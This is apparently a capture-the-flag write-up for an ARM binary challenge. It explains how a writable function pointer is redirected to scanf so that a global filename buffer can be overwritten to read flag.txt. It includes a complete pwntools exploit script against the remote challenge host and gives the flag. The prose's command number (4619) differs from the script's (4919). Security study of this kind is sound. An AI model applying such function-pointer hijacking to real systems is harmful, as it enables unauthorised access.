


# 0x1 introduction

[https://flu.xxx/challenges/16](https://flu.xxx/challenges/16)

# 0x3 Mitigations

```
# Arch:     arm-32-little
# RELRO:    Partial RELRO
# Stack:    Canary found
# NX:       NX enabled
# PIE:      No PIE (0x10000)
```

# 0x3 Solution

challenge contains 3 file, challenge.elf, stonks.txt, flag.txt

using decompiler and take a deep look at functions.

<!-- more -->



after enter the correct command and enter three variable, it will jump to function at 108e0, 108e0 contains a switch that call different function depending on the command user enter.



notice that string "stonks.txt" are stored in the `byte_22058`, and with commmand *48*, function `sub_10B80` will read `byte_22058` as a filename, and print out whether in the file.

so, we got an idea that if we need get the flag, we need to change `byte_22058` to "flag.txt" instead of "stonks.txt"

looking at other commands, command *1056* allow us pass a integer as a pointer to an function (lets say **funcA**).

and with command *4619*, we have call **funcA** with our 1st and 2nd parameter.

so, here is the question. Is there any function that take 2 pointer parameter and can modify a string. 

the answer is `plt:00010570 __isoc99_scanf`, we can use `scanf("%s",char* str)` to read input from stdin and write str.

in this case, str is the address of `byte_22058`, and "%s" can also found in the data section.

therefore, we have the process of getting the flag.

1. use 1056: change function address to scanf
2. use 4619: call scanf and write flag.txt to byte_22058
3. use 48: print out the file content in filename(byte_22058)


# 0x4 exp.py

```
#!/usr/bin/env python3
# -*- coding: utf-8 -*-
# This exploit template was generated via:
# $ pwn template '--host=flu.xxx' '--port=20040' challenge.elf
from pwn import *

# Set up pwntools for the correct architecture
exe = context.binary = ELF('challenge.elf')

# Many built-in settings can be controlled on the command-line and show up
# in "args".  For example, to dump all data sent/received, and disable ASLR
# for all created processes...
# ./exploit.py DEBUG NOASLR
# ./exploit.py GDB HOST=example.com PORT=4141
host = args.HOST or 'flu.xxx'
port = int(args.PORT or 20040)

def start_local(argv=[], *a, **kw):
    '''Execute the target binary locally'''
    if args.GDB:
        return gdb.debug([exe.path] + argv, gdbscript=gdbscript, *a, **kw)
    else:
        return process([exe.path] + argv, *a, **kw)

def start_remote(argv=[], *a, **kw):
    '''Connect to the process on the remote host'''
    io = connect(host, port)
    if args.GDB:
        gdb.attach(io, gdbscript=gdbscript)
    return io

def start(argv=[], *a, **kw):
    '''Start the exploit against the target.'''
    if args.LOCAL:
        return start_local(argv, *a, **kw)
    else:
        return start_remote(argv, *a, **kw)

# Specify your GDB script here for debugging
# GDB will be launched if the exploit is run via e.g.
# ./exploit.py GDB
gdbscript = '''
tbreak *0x{exe.entry:x}
continue
'''.format(**locals())

#===========================================================
#                    EXPLOIT GOES HERE
#===========================================================
# Arch:     arm-32-little
# RELRO:    Partial RELRO
# Stack:    Canary found
# NX:       NX enabled
# PIE:      No PIE (0x10000)

io = start()
print(1,io.recvuntil(b">>>"))
io.sendline(b"1056")
print(2,io.recvuntil(b">>>"))
io.sendline(b"66928 0 0")
print(3,io.recvuntil(b">>>"))
io.sendline(b"4919")
print(4,io.recvuntil(b">>>"))
io.sendline(b"70140 139352 0")
io.sendline(b"flag.txt\x00")
print(5,io.recvuntil(b">>>"))
io.sendline(b"48")
print(6,io.recvuntil(b">>>"))
io.sendline(b"123 456 789")
print(io.recv())


print("%%s",0x111fc)
print("22058",0x0022058)
print("scanf",0x00010570)
```

# 0x5 flag

flag{gl0bal_st0nkz_and_gl0bal_var1abl3}